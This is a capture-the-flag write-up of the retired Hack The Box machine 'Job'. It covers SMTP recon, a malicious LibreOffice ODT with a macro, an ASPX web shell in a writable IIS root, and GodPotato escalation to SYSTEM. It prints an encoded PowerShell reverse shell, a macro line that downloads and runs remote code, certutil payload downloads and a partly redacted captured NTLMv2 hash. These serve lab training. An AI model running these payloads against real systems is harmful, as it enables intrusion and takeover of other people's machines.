


# Job — Hack The Box

 Attribute | Details |
|---|---|
| Difficulty | Medium |
| OS | Windows |
| Status | Retired |
| Focus | SMTP/ODT client-side exploitation, LibreOffice macro execution, Windows ACL abuse, IIS web-shell pivot, SeImpersonatePrivilege |

## Overview

Job is a medium-difficulty Windows machine centered on abusing a document-processing workflow exposed through SMTP. Reconnaissance identifies an IIS site, hMailServer SMTP, SMB, RDP, and WinRM, while the website reveals that job applicants are expected to submit LibreOffice documents by email. After confirming that SMTP accepts messages for the advertised career mailbox, a crafted ODT document is used to trigger code execution when opened by the target user, resulting in an initial shell as job\jack.black.

Local enumeration shows that jack.black belongs to the custom JOB\developers group. ACL review with icacls reveals that this group has full control over C:\inetpub\wwwroot. Because the IIS web root executes ASPX content, this write permission can be converted into execution as the DefaultAppPool identity by placing an ASPX web shell in the site. The IIS application-pool account holds SeImpersonatePrivilege, which is then abused with GodPotato to obtain a SYSTEM token and complete the privilege-escalation path.

## Attack Path

`Job Website → SMTP Application Submission → Malicious ODT → LibreOffice Macro Execution → Jack.Black → Developers Group → Writable IIS wwwroot → ASPX Web Shell → DefaultAppPool → SeImpersonatePrivilege → GodPotato → NT AUTHORITY\SYSTEM`

## Reconnaissance
nmap scan
```shell
Nmap scan report for 10.129.234.73
Host is up (0.13s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: JOB, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Job.local
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: JOB
|   NetBIOS_Domain_Name: JOB
|   NetBIOS_Computer_Name: JOB
|   DNS_Domain_Name: job
|   DNS_Computer_Name: job
|   Product_Version: 10.0.20348
|_  System_Time: 2026-09-06T20:30:08+00:00
| ssl-cert: Subject: commonName=job
| Issuer: commonName=job
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-05T20:26:01
| Not valid after:  2027-03-07T20:26:01
| MD5:     68ac 428f 3038 92f4 c0e9 26c9 cccc c243
| SHA-1:   4cfb af52 e964 e138 51d5 d3c1 e1f4 bb50 2769 d681
|_SHA-256: 14bd 32d4 84da d653 64ef 5c4b b4f1 d091 3df0 e99c 1d22 5ea3 d018 9554 6075 6108
|_ssl-date: 2026-09-06T20:30:47+00:00; -26s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

```

Webpage with domain listed - Leaked information informing of open source products being used (potential for exploitation)


No additional links or navigation available on website (vhost/subdomain fuzzing next steps)
## Enumeration

SMB enumeration failed (access denied)
```shell
smbclient -N -L //10.129.234.73
session setup failed: NT_STATUS_ACCESS_DENIED
```

Confirming SMB dead end with NetExec (signing:False)
```shell
nxc smb 10.129.234.73 -u '' -p '' --shares                                   
SMB         10.129.234.73   445    JOB              [*] Windows Server 2022 Build 20348 (name:JOB) (domain:job) (signing:False) (SMBv1:None)
SMB         10.129.234.73   445    JOB              [-] job\: STATUS_INVALID_PARAMETER 
SMB         10.129.234.73   445    JOB              [-] Error enumerating shares: Error occurs while reading from remote(104)
```

VHOST fuzzing with ffuf (nothing)
```shell
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://job.local/ -H 'Host: FUZZ.job.local' -c -ac              

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://job.local/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.job.local
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 754 req/sec :: Duration: [0:00:27] :: Errors: 0 ::
```

SMTP Port available  - nmap script scan 
```shell
Nmap scan report for job.local (10.129.234.73)
Host is up (0.048s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-open-relay: Server is an open relay (8/16 tests)
|  MAIL FROM:<> -> RCPT TO:<relaytest@nmap.scanme.org>
|  MAIL FROM:<antispam@nmap.scanme.org> -> RCPT TO:<relaytest@nmap.scanme.org>
|  MAIL FROM:<antispam@JOB> -> RCPT TO:<relaytest@nmap.scanme.org>
|  MAIL FROM:<antispam@[10.129.234.73]> -> RCPT TO:<relaytest@nmap.scanme.org>
|  MAIL FROM:<antispam@[10.129.234.73]> -> RCPT TO:<relaytest%nmap.scanme.org@[10.129.234.73]>
|  MAIL FROM:<antispam@[10.129.234.73]> -> RCPT TO:<relaytest%nmap.scanme.org@JOB>
|  MAIL FROM:<antispam@[10.129.234.73]> -> RCPT TO:<nmap.scanme.org!relaytest@[10.129.234.73]>
|_ MAIL FROM:<antispam@[10.129.234.73]> -> RCPT TO:<nmap.scanme.org!relaytest@JOB>

NSE: Script Post-scanning.
Initiating NSE at 16:35
Completed NSE at 16:35, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.23 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)
```

With carerr@job.local listed on website and instructions to send libre office document - confirming email address and potential hash leak or exploit

```shell
swaks \
  --server 10.129.234.73 \
  --from applicant@example.com \
  --to career@job.local \
  --header "Subject: Developer Application" \
  --body "Please find my CV attached." \
  --attach cv.odt
=== Trying 10.129.234.73:25...
=== Connected to 10.129.234.73.
<-  220 JOB ESMTP
 -> EHLO kali
<-  250-JOB
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<applicant@example.com>
<-  250 OK
 -> RCPT TO:<career@job.local>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Sun, 06 Sep 2026 16:55:10 -0400
 -> To: career@job.local
 -> From: applicant@example.com
 -> Subject: Developer Application
 -> Message-Id: <20260906165510.1836037@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_1836037"
 -> 
 -> ------=_MIME_BOUNDARY_000_1836037
 -> Content-Type: text/plain
 -> 
 -> Please find my CV attached.
 -> ------=_MIME_BOUNDARY_000_1836037
 -> Content-Type: application/octet-stream
 -> Content-Disposition: attachment
 -> Content-Transfer-Encoding: BASE64
 -> 
 -> Y3Yub2R0
 -> 
 -> ------=_MIME_BOUNDARY_000_1836037--
 -> 
 -> 
 -> .
<-  250 Queued (13.094 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```


## Initial Foothold

Locating metasploit module (bad_odt) - Generating a malicious odt file to capture hashes
```shell
msf auxiliary(fileformat/odt_badodt) > options

Module options (auxiliary/fileformat/odt_badodt):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CREATOR   RD_PENTEST       yes       Document author for new document
   FILENAME  bad.odt          yes       Filename for the new document
   LHOST                      yes       IP Address of SMB Listener that the .odt document points to


View the full module info with the info, or info -d command.

msf auxiliary(fileformat/odt_badodt) > set LHOST tun0
LHOST => 10.10.16.97
msf auxiliary(fileformat/odt_badodt) > run
[*] Generating Malicious ODT File 
[*] SMB Listener Address will be set to 10.10.16.97
[+] bad.odt stored at /root/.msf4/local/bad.odt
[*] Auxiliary module execution completed
```

Running responder to capture hassh
```shell
sudo responder -I tun0 -dwv
<SNIP>
[SMB] NTLMv2-SSP Hash     : jack.black::JOB:c49be9819a6a676d:1C05FA41A6D526915FEDCC8746A42A2B:010100000000000000CC06BF373EDD013464DBC2BA34E3EF0000000002000800480030004C004A0001001E00570049004E002D00510059005100580030003600560057004D004A004A0004003400570049004E002D00510059005100580030003600560057004D004A004A002E00480030004C004A002E004C004F00430041004C000300140048003000<SNIP>93C88F938BB7310103591436A0D489D8191EC39EB7C83A715339B0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00390037000000000000000000         
```

Further review confirms this is a dead end

Using metasploit - searching for libreoffice provides potential macro execution
```shell
msf > search libreoffice

Matching Modules
================

   #  Full Name                                             Disclosure Date  Rank       Check  Name
   -  ---------                                             ---------------  ----       -----  ----
   0  exploit/multi/misc/openoffice_document_macro          2017-02-08       excellent  No     Apache OpenOffice Text Document Malicious Macro Execution
   1    \_ target: Apache OpenOffice on Windows (PSH)       .                .          .      .
   2    \_ target: Apache OpenOffice on Linux/OSX (Python)  .                .          .      .
   3  auxiliary/fileformat/odt_badodt                       2018-05-01       normal     No     LibreOffice 6.03 /Apache OpenOffice 4.1.5 Malicious ODT File Generator
   4  exploit/multi/fileformat/libreoffice_macro_exec       2018-10-18       normal     No     LibreOffice Macro Code Execution
   5    \_ target: Windows                                  .                .          .      .
   6    \_ target: Linux                                    .                .          .      .
   7  exploit/multi/fileformat/libreoffice_logo_exec        2019-07-16       normal     No     LibreOffice Macro Python Code Execution
```

Checking options to see what is needed
```shell
msf exploit(multi/misc/openoffice_document_macro) > options

Module options (exploit/multi/misc/openoffice_document_macro):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BODY                       no        The message for the document body
   FILENAME  msf.odt          yes       The OpenOffice Text document name
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an ad
                                        dress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SRVSSL    false            no        Negotiate SSL/TLS for local server connections
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.238.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Apache OpenOffice on Windows (PSH)
```

Updating payload to windows/x64/exec - adding in powershell reverse shell - exporting msf.odt file
```shell
msf exploit(multi/misc/openoffice_document_macro) > set SRVPORT 8081
SRVPORT => 8081
msf exploit(multi/misc/openoffice_document_macro) > set cmd powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AOQA3ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
cmd => powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AOQA3ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
msf exploit(multi/misc/openoffice_document_macro) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/misc/openoffice_document_macro) > 
[*] Using URL: http://192.168.238.128:8081/XG53SXg
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic/Standard
[*] Packaging file: Basic/Standard/Module1.xml
[*] Packaging file: Basic/Standard/script-lb.xml
[*] Packaging file: Basic/script-lc.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2/accelerator
[*] Packaging file: Configurations2/accelerator/current.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/META-INF
[*] Packaging file: META-INF/manifest.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Thumbnails
[*] Packaging file: Thumbnails/thumbnail.png
[*] Packaging file: content.xml
[*] Packaging file: manifest.rdf
[*] Packaging file: meta.xml
[*] Packaging file: mimetype
[*] Packaging file: settings.xml
[*] Packaging file: styles.xml
[+] msf.odt stored at /root/.msf4/local/msf.odt
```

Several attempts to obtain a reverse shell proofed unsuccessful - further research and enumeration of msf.odt file located payload and understanding of mechanics

Editing macros in msf.odt file confirms below shell script - updating the IP address to the attacker IP and needing to create a reverse shell file with file name XG53SXg
```shell
Shell("cmd.exe /C ""powershell.exe -nop -w hidden -c $o=new-object net.webclient;if([System.Net.WebProxy]::GetDefaultProxy().address -ne $null){$o.proxy=[Net.WebRequest]::GetSystemWebProxy();$o.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;};IEX ((new-object Net.WebClient).DownloadString('http://10.10.16.97:8081/XG53SXg'));""")
```

Creating reverse shell file (revshells.com) and hosting on port 8081 - setting up listener to catch reverse shell
```shell
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.234.73 - - [06/Sep/2026 20:04:36] "GET /XG53SXg HTTP/1.1" 200 -
```

```shell
rlwrap nc -nvlp 9001       
listening on [any] 9001 ...
connect to [10.10.16.97] from (UNKNOWN) [10.129.234.73] 57227
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
job\jack.black
```

## Privilege Escalation

### Group Enumeration
Checking jack.black's permissions reveal they are a member of the developers group
```powershell
C:\Users\jack.black\Desktop>whoami /all

USER INFORMATION
----------------

User Name      SID                                          
============== =============================================
job\jack.black S-1-5-21-3629909232-404814612-4151782453-1000


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes                                        
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
JOB\developers                         Alias            S-1-5-21-3629909232-404814612-4151782453-1001 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                     Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

User is a member of a unique group JOB\developers - Enumeration of groups permissions over folders is required - This can be done manually (icacls) or with winpeas

Manual enumeration with icacls in likely location (wwwroot)
```powershell
C:\Program Files\LibreOffice\program>cd C:\inetpub

C:\inetpub>icacls C:\inetpub\wwwroot
C:\inetpub\wwwroot JOB\developers:(OI)(CI)(F)
                   BUILTIN\IIS_IUSRS:(OI)(CI)(RX)
                   NT SERVICE\TrustedInstaller:(I)(F)
                   NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
                   NT AUTHORITY\SYSTEM:(I)(F)
                   NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                   BUILTIN\Administrators:(I)(F)
                   BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                   BUILTIN\Users:(I)(RX)
                   BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                   CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

Location of aspx file in wwwroot folder lends to the possibility of web shell
```powershell
C:\inetpub\wwwroot>dir
 Volume in drive C has no label.
 Volume Serial Number is A9B2-0C2A

 Directory of C:\inetpub\wwwroot

11/10/2021  08:57 PM    <DIR>          .
04/16/2025  11:21 AM    <DIR>          ..
11/10/2021  08:52 PM    <DIR>          aspnet_client
11/09/2021  09:24 PM    <DIR>          assets
11/09/2021  09:24 PM    <DIR>          css
11/10/2021  09:01 PM               298 hello.aspx
11/07/2021  01:05 PM             3,261 index.html
11/09/2021  09:24 PM    <DIR>          js
               2 File(s)          3,559 bytes
               6 Dir(s)   5,427,822,592 bytes free
```

### Web Root Exploitation

Navigating to http://job.local/hello.aspx confirms trigger of code and execution


Crafting aspx webshell or reverse shell can be accomplished in many ways - msfvenom is a popular choice along with using ANTAK 

Using ANTAK webshell - Credentials are required (Security reasons) - copy file and update below
```shell
if (Username.Text == "Disclaimer" && Password.Text == "ForLegitUseOnly")
```

With new username and password set for the web shell, uploading to the wwwroot folder using any preferred method
```powershell
certutil -urlcache -f http://10.10.16.97:8081/antak.aspx c:\inetpub\wwwroot\antak.aspx
```

Navigating to uploaded webshell and entering credentials gives access to webshell as defaultapppool


Checking user permissions confirms SeImpersonatePrivilege
```powershell
PS> whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

There are several exploits that can be used with SeImpersonate - godpotato is what will be used here - Upload exploit to machine
```powershell
certutil -urlcache -f http://10.10.16.97:8081/GodPotato-NET4.exe C:\programdata\godpotato.exe
```

From the antak webshell using gopotato.exe - running a powershell command to get the root flag
```powershell
PS> C:\programdata\godpotato.exe -cmd 'powershell type C:\Users\Administrator\Desktop\root.txt'
[*] CombaseModule: 0x140707759325184
[*] DispatchTable: 0x140707761912136
[*] UseProtseqFunction: 0x140707761205440
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\9c19a4c5-ae4e-473b-87bb-a2d99f6b36e3\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000a002-1344-ffff-fe45-4d88c293b505
[*] DCOM obj OXID: 0x152f48f67fd8ea72
[*] DCOM obj OID: 0xb4315020e7381c8a
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 892 Token:0x360  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 4736
<REDACTED>
```
## Key Takeaways
Application workflows can be the attack surface. The useful path was not a conventional web vulnerability; it was the exposed recruitment workflow that caused a submitted LibreOffice document to be opened on the target.

A captured NTLM hash is not always the end goal. The first malicious ODT successfully triggered outbound authentication, but the captured NetNTLMv2 material was a dead end. Understanding the document-processing behavior led to direct code execution instead.

Custom group membership deserves targeted ACL enumeration. Membership in JOB\developers was significant because the group had full control of the IIS web root. Checking high-value directories with icacls quickly exposed the privilege boundary.

Writable web roots can change execution context. Writing an ASPX file to C:\inetpub\wwwroot transformed access as jack.black into server-side execution under the IIS application-pool identity.

Always inspect privileges after changing users or service contexts. The DefaultAppPool account exposed SeImpersonatePrivilege, which provided the final route to SYSTEM.

Treat failed exploitation as information. The unsuccessful hash-cracking and initial Metasploit attempts still confirmed that the ODT was being opened and that the host could reach the attacker, narrowing the problem to payload delivery rather than exploitability.

## Tools Used

Nmap — Port and service enumeration
ffuf — Virtual-host enumeration
smbclient — SMB enumeration
NetExec / nxc — SMB validation and host information
Swaks — SMTP testing and delivery of ODT attachments
Metasploit Framework
auxiliary/fileformat/odt_badodt
exploit/multi/misc/openoffice_document_macro
Responder — NetNTLMv2 credential capture
Python HTTP Server — Hosted PowerShell payloads and transferred files
Netcat / rlwrap — Reverse-shell listener
whoami — User, group, and privilege enumeration
icacls — Windows filesystem ACL enumeration
certutil — File transfer to the Windows target
ANTAK — ASPX web shell
GodPotato — SeImpersonatePrivilege abuse for SYSTEM escalation

---

  
*Flags, passwords, hashes, and other sensitive credential material are redacted.

This write-up covers retired Hack The Box content only.*